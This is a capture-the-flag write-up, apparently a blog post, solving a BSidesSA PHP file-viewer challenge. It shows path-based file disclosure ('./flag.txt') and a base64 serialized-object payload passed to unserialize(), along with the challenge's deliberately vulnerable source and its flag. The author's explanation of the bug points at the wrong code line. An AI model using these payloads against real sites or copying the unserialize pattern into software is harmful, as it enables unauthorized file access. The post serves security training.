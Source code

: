 ```yaml
---
layout: post
title: undynamic nosql
---
```


# Undynamic NoSQL

Upon first viewing of the web page, we get this:

![index](./1.png)

The expected functionality is that the web page will display a file from the drop down list.

![display](./2.png)

## Challenge Begins

The first thing to do was view the page source where the following comments appeared:

```
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
```

Modifying the GET request by changing the filename parameter value in the URL to access index.php showed:

view-source://xx.xx.xx.xx/?filename=index.php

```
<html>
<h1>FileViewer</h1>
<form action="/">
<select name="filename">
<!--<option value=".">.</option>-->
<!--<option value="..">..</option>-->
<option value=".htacccess">.htacccess</option>
<option value="DemoController.cs">DemoController.cs</option>
<option value="factorial.js">factorial.js</option>
<!--<option value="flag.txt">flag.txt</option>-->
<!--<option value="index.php">index.php</option>-->
<option value="main_test.go">main_test.go</option>
<option value="my.log">my.log</option>
<option value="setup.py">setup.py</option>
</select>
<input type="submit" value="submit">
</form>
<p>Want to save your File View? Bookmark this url: <a href="/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo5OiJpbmRleC5waHAiO30=">Bookmark me!</a></p>
<?php<br />
session_start();<br />
//parse_str(implode('&', array_slice($argv, 1)), $_GET);<br />
?><br />
<html><br />
<h1>FileViewer</h1><br />
<?php<br />
class FileViewer<br />
{<br />
   var $filename = "";<br />
<br />
   function __construct($filename)<br />
   {<br />
      $this->filename = $filename;<br />
   }<br />
<br />
   function __toString()<br />
   {<br />
      if (!empty($this->filename))<br />
      {<br />
         return file_get_contents($this->filename);<br />
      }<br />
      else<br />
      {<br />
         return "No file!";<br />
      }<br />
   }<br />
}<br />
?><br />
<form action="/"><br />
<select name="filename"><br />
<?php<br />
$files = scandir(".");<br />
foreach ($files as $f)<br />
{<br />
   $select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />
   if ($f == "." or $f == ".." or $f == "index.php" or $f == "flag.txt")<br />
   {<br />
      $select_val = "<!--" . $select_val . "-->";<br />
   }<br />
   echo $select_val . "\n";<br />
}<br />
?><br />
</select><br />
<input type="submit" value="submit"><br />
</form><br />
<?php<br />
$my_view = NULL;<br />
if (isset($_GET["filename"]) and !empty($_GET["filename"]) and $_GET["filename"] != "flag.txt")<br />
{<br />
   $my_view = new FileViewer($_GET["filename"]);<br />
   $my_view_b64 = base64_encode(serialize($my_view));<br />
   echo '<p>Want to save your File View? Bookmark this url: <a href="/?view=' . $my_view_b64 . '">Bookmark me!</a></p>';<br />
   echo "\n";<br />
}<br />
elseif (isset($_GET["view"]) and !empty($_GET["view"]))<br />
{<br />
   $my_view = unserialize(base64_decode($_GET["view"]));<br />
}<br />
<br />
if (isset($my_view) and !empty($my_view))<br />
{<br />
   echo nl2br($my_view);<br />
}<br />
?><br />
</html><br />
</html>
```

There appeared to be a bug in 

`$select_val = "<option value=\"" . $f . "\">" . $f . "</option>";<br />` 

which did not properly prevent access to index.php and directory traversal.

Thus, the flag was accessible via editing the filename parameter like so: 

xx.xx.xx.xx/?filename=./flag.txt

The less trivial and likely intended method for solving the challenge is demonstrated by the link saving functionality where the parameter is base64 encoded and passed instead.

An example parameter:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czoxNzoiRGVtb0NvbnRyb2xsZXIuY3MiO30=

Decoding the base64 encoded string showed the parameter in the following format:

`O:10:"FileViewer":1:{s:8:"filename";s:17:"DemoController.cs";}`

This format was used to write a parameter to access flag.txt:

`O:10:"FileViewer":1:{s:8:"filename";s:8:"flag.txt";}`

Encoding it to base64 and passing it to the parameter provided access to the flag:

xx.xx.xx.xx/?view=TzoxMDoiRmlsZVZpZXdlciI6MTp7czo4OiJmaWxlbmFtZSI7czo4OiJmbGFnLnR4dCI7fQ==

BSidesSA{pea_8ch_pea_1s_gr34t}

